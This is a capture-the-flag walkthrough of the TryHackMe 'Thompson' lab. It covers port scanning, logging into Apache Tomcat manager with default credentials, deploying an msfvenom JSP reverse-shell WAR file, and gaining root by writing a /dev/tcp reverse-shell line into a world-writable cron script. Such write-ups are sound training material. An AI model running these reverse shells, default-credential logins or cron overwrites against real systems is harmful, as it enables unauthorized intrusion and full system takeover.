



# TryHackMe Thompson

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

## VM Details

|**Name**|[Thompson](https://tryhackme.com/room/bsidesgtthompson)|
|---|---|
|**Created by**|[stuxnet](https://tryhackme.com/p/stuxnet)|
|**Date release**|594 days old (9/4/2021)|

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.139.145
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 22,8009,8080

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.139.145 -p22,8009,8080
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-09 15:48 +07
Nmap scan report for 10.10.139.145
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.61 seconds
```

### Apache Tomcat 8.5.5

At port 8080, this is apache tomcat version 8.5.5. 



I try to login to manager page with some default credentials and when I try with username `tomcat` password `s3cret`, I got manager page.



## Foothold

### War file deploy shell

At the manager page, I can deploy web shell using war file deploy in tomcat server.

Create file `shell.war` with msfvenom

```
┌──(Hades㉿10.11.32.198)-[3.2:26.3]~/walkthrough/tryhackme/thompson
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.32.198 LPORT=443 -f war > shell.war
Payload size: 1082 bytes
Final size of war file: 1082 bytes
```

Upload file to tomcat server.



Go to `http://10.10.139.145:8080/shell/` to execute shell.

```
┌──(Hades㉿10.11.32.198)-[3.2:27.2]~/walkthrough/tryhackme/thompson
└─$ curl http://10.10.139.145:8080/shell/
```

At the listener, I got reverse shell.

```
┌──(Hades㉿10.11.32.198)-[3.2:27.3]~
└─$ sudo nc -nvlp 443               
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.139.145] 50716
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## Privilege Escalation

### Cron Jobs File Overwrite

At the jack's home folder, there is a file named `id.sh` contain code execute command id and save the result to `text.txt` file

```
tomcat@ubuntu:/home/jack$ ls
id.sh  test.txt  user.txt
tomcat@ubuntu:/home/jack$ cat id.sh 
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt 
uid=0(root) gid=0(root) groups=0(root)
```

I know that, admin was create a cron jobs for execute file `id.sh`. Let's confirm it by list cron jobs.

```
tomcat@ubuntu:/home/jack$ cat /etc/crontab
# /etc/crontab: system-wide crontab
<snip>
*  *    * * *   root    cd /home/jack && bash id.sh
```

But file id.sh have privilege 777, can edit by any user.

```
tomcat@ubuntu:/home/jack$ ls -lh id.sh
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
```

Add bash reverse shell code to file `id.sh`.

```
echo 'sh -i >& /dev/tcp/10.11.32.198/443  0>&1' > id.sh
```

Wait a second, at the listener I have root shell

```
┌──(Hades㉿10.11.32.198)-[3.1:27.5]~
└─$ sudo nc -nvlp 443                                                                                                                                                   1 ⨯
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.139.145] 50724
sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```